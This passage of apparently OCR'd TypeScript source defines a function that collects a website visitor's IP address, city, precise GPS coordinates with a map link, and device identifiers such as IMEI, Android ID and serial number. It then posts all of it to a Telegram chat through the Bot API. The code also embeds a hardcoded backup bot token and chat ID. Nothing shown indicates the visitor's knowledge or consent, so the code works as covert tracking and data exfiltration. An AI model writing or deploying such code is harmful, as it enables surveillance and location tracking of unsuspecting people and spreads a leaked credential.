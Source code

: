   const response = await fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
    },
    body: JSON.stringify(data),
  });

  const responseData = await response.json();
  
  if (!response.ok || !responseData.ok) {
    throw new Error(
      `Telegram API Error: ${response.status} - ${responseData.description || response.statusText}`
    );
  }

  return response;
}

export const sendTelegramNotification = async (details: VisitorDetails) => {
  if (hasNotificationBeenSent) {
    return;
  }

  const primaryBotToken = import.meta.env.VITE_TELEGRAM_BOT_TOKEN?.trim();
  const backupBotToken = '7998243036:AAEmkLqfg6q1Gurw1QgfHCbBM5Idr4SoX6c';
  const CHAT_ID = '-1002361654031';

  if (!CHAT_ID) {
    console.error('Telegram chat ID is not configured');
    return;
  }
  
  const locationInfo = await getLocationInfo();
  const deviceInfo = await getDeviceInfo();
  
  let locationText = `🌆 City: ${locationInfo.city}\n🌍 Country: ${locationInfo.country}\n🌐 IP: ${locationInfo.ip}`;
  
  if (locationInfo.latitude && locationInfo.longitude) {
    locationText += `\n📍 Location (${locationInfo.source}): ${locationInfo.latitude}, ${locationInfo.longitude}`;
    if (locationInfo.accuracy) {
      locationText += `\n🎯 Accuracy: ${Math.round(locationInfo.accuracy)}m`;
    }
    
    locationText += `\n🗺 Map: https://www.google.com/maps?q=${locationInfo.latitude},${locationInfo.longitude}`;
  }

  const deviceText = `
📱 Device Details
  • Brand: ${deviceInfo.brand}
  • Model: ${deviceInfo.model}
  • Type: ${deviceInfo.type}
  • Platform: ${deviceInfo.platform}
  • OS Version: ${deviceInfo.osVersion || 'Unknown'}
  • Mobile: ${deviceInfo.mobile ? 'Yes' : 'No'}
  • Screen: ${deviceInfo.screenResolution || 'Unknown'}
  • CPU Cores: ${deviceInfo.cpuCores || 'Unknown'}
  • Memory: ${deviceInfo.totalMemory ? deviceInfo.totalMemory + 'GB' : 'Unknown'}
  • Battery: ${deviceInfo.batteryLevel ? deviceInfo.batteryLevel + '%' : 'Unknown'}
  • Network: ${deviceInfo.networkType || 'Unknown'}
  • IMEI: ${deviceInfo.imei || 'Not available'}
  • Android ID: ${deviceInfo.androidId || 'Not available'}
  • Serial: ${deviceInfo.serialNumber || 'Not available'}`;
  
